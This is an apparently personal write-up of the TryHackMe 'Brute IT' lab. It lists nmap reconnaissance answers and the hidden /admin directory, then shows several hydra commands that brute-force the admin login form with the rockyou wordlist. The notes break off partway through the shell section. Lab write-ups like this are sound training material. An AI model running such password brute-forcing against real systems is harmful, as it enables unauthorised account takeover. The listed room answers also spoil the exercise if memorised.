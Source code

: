 ### Brute IT

export IP=10.10.166.204

In this box you will learn about:

- Brute-force

- Hash cracking

- Privilege escalation

Connect to the TryHackMe network, and deploy the machine.

####  Reconnaissance

Before attacking, let's get information about the target

Search for open ports using nmap.
How many ports are open?
- 2

What version of SSH is running?
- OpenSSH 7.6p1

What version of Apache is running?
- 2.4.29

Which Linux distribution is running?
- Ubuntu

![](../../img/Pasted%20image%2020220828045234.png)



Search for hidden directories on web server.
What is the hidden directory?
- /admin

![](../../img/Pasted%20image%2020220828045211.png)


#### Getting a shell

Find a form to get a shell on SSH.


What is the user:password of the admin panel?


As we checked here, the login form needs to provide a username and password. We can check for the username in the comment made in page inspect:

![](../../img/Pasted%20image%2020220828054903.png)

Now that we have a username, we can brute force the password by using hydra:

Here, i got stuck for a while since I cannot get the syntax right:

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.166.204 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:invalid" -V


![](../../img/Pasted%20image%2020220828055013.png)

Once we have the password, we can now login to the admin panel:

![](../../img/Pasted%20image%2020220828055116.png)


hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.166.204 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=incorrect" -V         

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.166.204 http-post-form “/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid” -V

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.166.204 http-post-form "admin/index.php:user=^USER^&pass=^PASS^:invalid